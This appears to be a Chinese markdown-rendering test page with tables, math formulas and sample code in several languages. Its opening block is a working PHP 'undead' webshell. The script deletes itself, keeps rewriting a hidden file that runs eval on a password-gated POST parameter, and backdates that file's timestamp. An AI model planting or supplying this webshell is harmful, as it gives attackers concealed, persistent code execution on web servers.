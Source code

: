 + 简单的不死马示例

  ```php
  <?php
      ignore_user_abort(true);
      set_time_limit(0);
      unlink(__FILE__);
      $file = '.config.php';
      $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){<span class="label label-primary">@eval($_POST[a]);}</span> ?>';
      //pass=pass
      while (1){
          file_put_contents($file,$code);
          system('touch -m -d "2018-12-01 09:10:12" .config.php');
          usleep(5000);
      }
  ?>
  ```

	> 因为运行该 php 文件后，已经将该脚本读入并作为 opcode 进行运行
    > opcode 缓存



	### 表格测试

| 时间 | 项目名称 | 项目动态 | 其他 | 测试项1 | 测试项2 | 测试项3|
|----|-----------|--------------------------|--------|--------|--------|--------|
|2023-03-27|[**veinmind-tools**](detail/veinmind-tools.md)|更新 [v2.1.0](detail/veinmind-tools.md#最近更新) 版本|无|√|√|×|
|2023-03-21|[**pocsuite3**](detail/pocsuite3.md)|更新 [v2.0.3](detail/pocsuite3.md#最近更新) 版本|无|√|×|√|
|2023-03-12|[**CDK**](detail/CDK.md)|更新 [v1.5.2](detail/CDK.md#最近更新) 版本|无|√|√|×|
|2023-03-01|[**Antenna**](detail/Antenna.md)|更新 [v1.3.2](detail/Antenna.md#最近更新) 版本|无|√|×|√|
|2023-02-22|[**HaE**](detail/HaE.md)|更新 [v2.4.6](detail/HaE.md#最近更新) 版本|无|√|√|√|
|2023-02-15|[**GShark**](detail/gshark.md)|更新 [v1.1.4](detail/gshark.md#最近更新) 版本|无|√|√|√|
|2023-02-13|[**ENScanGo**](detail/ENScanGo.md)|更新 [v0.0.9](detail/ENScanGo.md#最近更新) 版本|无|√|×|√|
|2023-02-05|[**Viper**](detail/Viper.md)|更新 [v1.5.25](detail/Viper.md#最近更新) 版本|无|√|×|×|
|2023-02-04|[**afrog**](detail/afrog.md)|更新 [v2.2.1](detail/afrog.md#最近更新) 版本|无|√|×|√|
|2023-02-03|[**passive-scan-client**](detail/passive-scan-client.md)|更新 [v0.3.1](detail/passive-scan-client.md#最近更新) 版本|无|√|√|×|


数学公式测试
$$
\frac{1}{
  \Bigl(\sqrt{\phi \sqrt{5}}-\phi\Bigr) e^{
  \frac25 \pi}} = 1+\frac{e^{-2\pi}} {1+\frac{e^{-4\pi}} {
    1+\frac{e^{-6\pi}}
    {1+\frac{e^{-8\pi}}{1+\cdots}}
  }
}
$$

常见函数定义域如下

+ $y=\frac{a}{b}\Rightarrow(x\neq0)$
+ $y=\sqrt[2n]{x}\Rightarrow(x\geq0)$
+ $y=\sqrt[2n+1]{x}\quad\Rightarrow (x\in(-\infty,+\infty),x\in R)$
+ $y=\log_a{x}\Rightarrow(x>0)\quad$
+ $y=\tan{x}\Rightarrow(x \neq k\pi+\frac{\pi}{2})$
+ $y=\cot{x}\Rightarrow(x\neq k\pi)$
+ $y=\arctan{x},y=arccot{x}\Rightarrow(x\in R,x\in(-\infty,+\infty))$
+ $y=\arcsin{x},y=\arccos{x}\Rightarrow(x\in[-1,1])$


### 不同代码块测试

```python
from flask import (
    Flask,
    render_template,
    url_for,
    redirect,
    session,
    request
)
from core.woker import WorkSpaceDataAllocate;
from core.basic import md5Enc_
from core.config import *;

import uuid;


template_folder = "../templates"
static_folder = "../static"

class ServerPanInfo:
    def __init__(self) -> None:
        self.key = str( uuid.uuid4() ).replace('-','');
        self.root = False;
```



```sh
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
LANG=en_US.UTF-8

CURL_CHECK=$(which curl)
if [ "$?" == "0" ];then
	curl -sS --connect-timeout 10 -m 10 https://www.bt.cn/api/wpanel/SetupCount > /dev/null 2>&1
else
	wget -O /dev/null -o /dev/null -T 5 https://www.bt.cn/api/wpanel/SetupCount
fi

if [ $(whoami) != "root" ];then
	echo "不是root权限"
	exit 1;
fi

cd ~
setup_path="/www"
python_bin=$setup_path/server/panel/pyenv/bin/python
cpu_cpunt=$(cat /proc/cpuinfo|grep processor|wc -l)
```



```html
<!DOCTYPE html>
<html lang="en" >
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="../static/js/jquery-3.6.3.min.js"></script>
    <script src="../static/js/popper.min.js"></script>
    <script src="../static/js/sweetalert.min.js"></script>
    <script src="../static/js/bootstrap_5.3/bootstrap.min.js"></script>
    <link rel="stylesheet" href="../static/css/bootstrap_5.3/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/index.css">

    <!-- ^hljs -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/highlight.js/styles/emacs.css" id="hljsCodeBlockColor">     <!--^ dark: native ;  light: emacs-->
    <script src="../static/Vditor3.9.0/dist/js/highlight.js/highlight.pack.js"></script>
    <script src="../static/js/highlight/highlightjs-line-numbers.min.js"></script>

    <!-- ^kateX.js -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/katex/katex.min.css">
    <script src="../static/Vditor3.9.0/dist/js/katex/katex.min.js"></script>

    <!-- ^Vditor/method.min.js -->
    <script src="../static/Vditor3.9.0/method.min.js"></script>

    <script src="../static/js/function.js"></script>
    <script src="../static/js/md2html.js"></script>
    <title>Document</title>
</head>
<body>
	Hello World!    
</body>
</html>
```



```js
Array.prototype.remove = function(...args){
    while(args.length > 1){
        this.remove(args.pop());
    }
    let index = this.indexOf(args[0]);
    while(index > -1){
        this.splice(index, 1);
        index = this.indexOf(args[0]);
    }
    return this; //注释
}
```



```cpp
#include "serialportthread.h"

serialportthread::serialportthread()
{
    moveToThread(this);
}

void serialportthread::run()
{
    PortSettings set = {BAUD115200,DATA_8,PAR_NONE,STOP_1,FLOW_OFF};
    myCom = new QextSerialPort("/dev/ttyUSB0",set);
    if(myCom->open(QIODevice::ReadWrite)){
        connect(myCom,SIGNAL(readyRead()),this,SLOT(onRead()));
        porthandle = new SerialPortReceive(this);
        connect(porthandle,SIGNAL(byteFinish(QByteArray)),this,SIGNAL(evt_serial_receive(QByteArray)));
        qDebug("ok");
    }else qDebug("no");
    this->exec();
}

void serialportthread::onRead()
{
    QByteArray ba =myCom->readAll();
    porthandle->dataHandle(ba);
}

void serialportthread::send(QByteArray ba)
{
    myCom->flush();
    myCom->write(ba);
}

void serialportthread::mysleep(int a)
{
    msleep(a);
}
```



```c++
#ifndef SERIALPORTTHREAD_H
#define SERIALPORTTHREAD_H

#include <QThread>
#include "./smarthome/qextserialport.h"
#include "./smarthome/serialportreceive.h"
class serialportthread : public QThread
{
    Q_OBJECT
public:
    explicit serialportthread();
    
signals:
    void evt_serial_receive(QByteArray);
private:
    QextSerialPort *myCom;
    SerialPortReceive *porthandle;
public slots:
    void run();
    void onRead();
    void send(QByteArray ba);
    void mysleep(int a);
};

#endif // SERIALPORTTHREAD_H
```

